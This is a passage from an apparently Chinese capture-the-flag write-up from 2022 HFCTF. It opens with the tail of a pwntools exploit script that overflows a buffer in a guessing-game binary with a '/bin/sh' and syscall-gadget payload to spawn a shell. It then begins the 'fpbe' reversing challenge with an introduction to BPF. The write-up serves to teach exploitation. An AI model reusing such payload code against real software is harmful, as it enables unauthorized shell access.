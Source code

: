     io.recvuntil("YOU HAVE SEVEN CHANCES TO GUESS")

    guessTrainner()

    io.recvuntil("AGAIN OR EXIT?")

    io.sendline("exit")

    io.recvuntil("EXIT")

    #gdb.attach(io)

    io.sendline(str(4))



    io.recvuntil("ARE YOU SURE?")

    #gdb.attach(io)

    syscall = 0x47cf05

    binsh = 0xc0000be000



    payload = b'/bin/sh\x00'*0x8c + p64(syscall) + p64(0) + p64(59) + p64(binsh) + p64(0) + p64(0)

    io.sendline(payload)

    io.interactive()



    #494B0F


## fpbe<br>
### 简单分析

这道题应该是re里最简单的一道了，也讲述了新的技术，比较有趣，可以学一下

拿到程序，先运行一下它

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-8-2022HFCTF_fpbe/1.png)

看样子ubuntu16跑不了这个程序 换到ubuntu20

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-8-2022HFCTF_fpbe/2.png)

看样子没什么了，拖入ida进行分析

可以看到每个函数前面几乎都带了bpf

我们可以搜一下，简单了解一下bpf是什么东西

### BPF(Berkeley Packet Filter)简介

BPF是一种内核代码注入技术

- 内核中实现了一个cBPF/eBPF虚拟机；

- 用户态可以用C来写运行的代码，再通过一个Clang&LLVM的编译器将C代码编译成BPF目标码；
